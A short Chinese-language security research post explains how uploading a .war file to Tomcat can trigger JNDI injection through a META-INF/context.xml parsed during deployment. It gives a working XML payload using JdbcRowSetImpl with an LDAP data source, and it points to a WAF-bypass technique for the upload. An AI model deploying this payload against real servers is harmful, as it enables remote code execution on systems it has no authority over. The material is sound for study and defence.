 # Tomcat上传.war触发JNDI

首发思路来自Firebasky

绝大多数时候上传.war不能触发解压(具体原因这里不提)，因此不能做到解压覆盖原项目文件实现RCE

同时在不能上传jsp文件时候该如何破局呢？

思路来自我之前的博客，具体原理在：[https://y4tacker.github.io/2022/02/03/year/2022/2/jsp%E6%96%B0webshell%E7%9A%84%E6%8E%A2%E7%B4%A2%E4%B9%8B%E6%97%85/#%E5%8F%91%E7%8E%B0](https://y4tacker.github.io/2022/02/03/year/2022/2/jsp新webshell的探索之旅/#发现)

简单来说tomcat在解析xml文档时能实例化类，并触发set方法调用

在org.apache.catalina.startup.HostConfig#deployWar方法中如果文件后缀为.war就尝试触发部署操作

![image-20230609143414113](./index/image-20230609143414113.png)

在deployWAR中，在部署war之前的检查中，有对META-INF/context.xml判断文件是否存在

如果存在则触发解析

![image-20230609143451160](./index/image-20230609143451160.png)

那么就可以配合我博客里提到的payload创建context.xml，写入payload压缩打包触发JNDI

```xml
<Context>
<!-- Default set of monitored resources. If one of these changes, the -->
<!-- web application will be reloaded. -->
<WatchedResource>web.xml</WatchedResource>
<Manager className="com.sun.rowset.JdbcRowSetImpl"
dataSourceName="ldap://127.0.0.1/test"
autoCommit="true"></Manager>
</Context>
```

Ps:配合[https://y4tacker.github.io/2022/06/19/year/2022/6/%E6%8E%A2%E5%AF%BBTomcat%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%B5%81%E9%87%8F%E5%B1%82%E9%9D%A2%E7%BB%95waf%E6%96%B0%E5%A7%BF%E5%8A%BF/](https://y4tacker.github.io/2022/06/19/year/2022/6/探寻Tomcat文件上传流量层面绕waf新姿势/)

绕waf效果更佳
